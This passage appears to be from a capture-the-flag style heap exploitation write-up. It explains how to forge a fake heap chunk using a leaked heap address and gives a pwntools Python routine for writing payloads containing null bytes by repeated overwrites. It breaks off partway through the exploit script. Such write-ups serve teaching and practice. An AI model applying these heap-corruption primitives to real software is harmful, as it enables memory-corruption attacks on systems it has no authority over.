 ```c
            // [...]
    }                                                                         \
}
```
Well, it seems like we are going to have to put our hands to work and create one hell of a chunk, with valid pointers that point to other chunks that point to our fake one. Well, we have a heap leak, that must be enough (told ya we would use it), but first we need to develop a primitive to write data to a chunk with as many nullbytes as we want. This is gonna be cool.

### I'll say whatever I want (or how to place nil bytes, just 'cause nihilism)
Let's say we want to write (with '0' denoting nullbytes)
```
AAAAAA00BBBBBB0CCC
```
After filling up the stack buffer to the size of the chunk we want to write this in, we first write padding till the last nullbyte, overwriting it, followed by the rest of the data.
```
AAAAAA00BBBBBB0CCC (what we want to write)
XXXXXXXXXXXXXXXCCC (what we write in the 1st step)
```
Now we place the nullbyte where we want it with a newline (denoted by 'n')
```
AAAAAA00BBBBBB0CCC (what we want to write)
XXXXXXXXXXXXXXXCCC (what we currently have in the chunk)
XXXXXXXXXXXXXn     (what we write in the 2nd step)
XXXXXXXXXXXXXn0CCC (what we have in the chunk after this step)
```
Repeat for each nullbyte, season to taste and it will be ready to be served.
```
AAAAAA00BBBBBB0CCC (what we want to write)
XXXXXXXXXXXXXn0CCC (what we currently have in the chunk)
XXXXXXXXBBBBBB     (what we write in the 3rd step)
XXXXXXXXBBBBBB0CCC (what we have in the chunk after this step)
```
Adding a simple check to make it more versatile, we have the following.
```python
def create_chunk(size, contents = None):
    # Fill buffer with a string with desired size for strlen()
    r.write(b"X" * (size - 0x8) + b'\0'); sleep(deltat)
    if(contents is None): return

    idx = None
    previdx = None
    while (idx := contents.rfind(b'\0', 0, idx)) != -1:
        # Write what goes between the null we are considering now, and the
        # one we considered the last iteration
        if len(contents[idx + 1:previdx]) != 0:
            r.write(b"Y" * (idx + 1) + contents[idx + 1:previdx]); sleep(deltat)
        # Place the null where it belongs
        r.write(b"Z" * (idx - 1) + b'\n'); sleep(deltat)
        previdx = idx
    r.write(contents[:previdx]); sleep(deltat)
```
Using this new toy we can rewrite our script.
```python
from pwn import *

r = process("./binary")
deltat = .05

def create_chunk(size, contents = None):
    # Fill buffer with a string with desired size for strlen()
    r.write(b"X" * (size - 0x8) + b'\0'); sleep(deltat)
    if(contents is None): return
```